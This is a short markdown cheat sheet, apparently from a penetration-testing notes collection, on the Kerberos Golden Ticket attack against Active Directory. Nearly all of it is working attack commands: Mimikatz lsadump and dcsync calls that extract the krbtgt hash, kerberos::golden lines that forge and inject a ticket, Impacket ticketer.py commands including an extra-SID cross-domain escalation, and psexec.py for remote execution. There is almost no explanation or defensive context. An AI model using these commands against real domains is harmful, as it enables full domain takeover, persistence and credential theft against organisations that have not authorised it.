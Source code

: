 # Golden Ticket attack
Requires krbtgt password or NTLM hash, to forge a TGT.

once you have hash for krbtgt
Rewrite TGTs

## Get info - Mimikatz
```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Forge a Golden ticket - Mimikatz
```
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

## Swapping tickets between Linux-Windows
`python ticket_converter.py <LINUX.ccache> <WINDOWS.kirbi>`
`python ticket_converter.py <WINDOWS.kirbi> <LINUX.ccache>`

## Alternatively you can use ticketer from Impacket
`ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da`
`ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519`
`ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519`

```
export KRB5CCNAME=/home/user/ticket.ccache
cat $KRB5CCNAME
```

`psexec.py -k -no-pass -dc-ip <IP> AD/administrator@192.168.1.100`
